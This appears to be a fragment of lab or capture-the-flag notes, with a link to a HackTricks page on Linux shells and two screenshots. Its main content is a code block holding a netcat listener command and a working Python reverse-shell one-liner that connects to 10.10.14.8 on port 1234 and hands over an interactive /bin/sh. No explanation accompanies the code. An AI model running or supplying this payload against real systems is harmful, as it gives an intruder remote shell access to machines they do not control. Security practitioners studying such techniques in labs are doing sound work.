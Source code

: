 https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux

```
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)

